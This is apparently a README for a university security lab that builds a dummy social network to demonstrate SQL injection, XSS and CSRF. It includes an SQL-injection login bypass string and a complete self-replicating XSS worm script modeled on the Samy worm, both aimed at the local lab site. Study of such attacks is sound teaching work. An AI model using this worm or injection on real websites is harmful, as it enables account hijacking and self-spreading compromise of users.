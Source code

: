 # ECE-5590-Attack-Reproduction

Objective: Malicious code in websites

Part 1: Build a simple dummy social networking site and use it to demonstrate SQL injection Links to an external site., XSS Links to an external site., and CSRF Links to an external site. vulnerabilities.

Part 2: Construct an XSS worm Links to an external site. to attack your site, like the Samy worm Links to an external site. that infected MySpace.

Part 3: Implement defenses against each threat. Bonus challenge: Discover an undocumented XSS vulnerability in a popular website.



## Steps


# Setup DB

```
python setup_db.py
```


# Start Website

```
python app.py
```
The site comes with 3 accounts with the following credentials:

- `admin:admin`
- `bob:bob`
- `alice:alice`

Additional accounts can be created

Register a user with the following
- Username: >username<
- Password: >password<

Log in with these credentials

# SQL injection

Go to login page and append `' --` to the username, for example:
- Username: `admin' --`
- Password: >any<

This logs you in as admin without needing the password


# XSS Worm Example

1) Login as alice (alice:alice)

2) Create a post with the following:
```
<script>
fetch('/post', {  // Sends request to create new post on website
    method: 'POST',  // Use the HTTP POST method to send data
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },  // Set the request content type

    // The body of the request contains the post content.
    body: 'content=' + encodeURIComponent('Alice is the best <scr' + 'ipt>' + 
        'fetch("/post", {' +
        'method: "POST",' +
        'headers: {"Content-Type": "application/x-www-form-urlencoded"},' +
        'body: "content=" + encodeURIComponent(\'Alice is the best <scr\'+\'ipt>\' + document.currentScript.outerHTML + \'</scr\'+\'ipt>\')' +
        '});' +
        '</scr' + 'ipt>')
});
</script>
I'm the best! // what users will see
```

3) Logout
4) Log in to bob's account (bob:bob)
5) View global feed as bob, to see alice's post
6) Logout
7) Log back in to alice
8) View global post, see that bob has reposted alice's post.

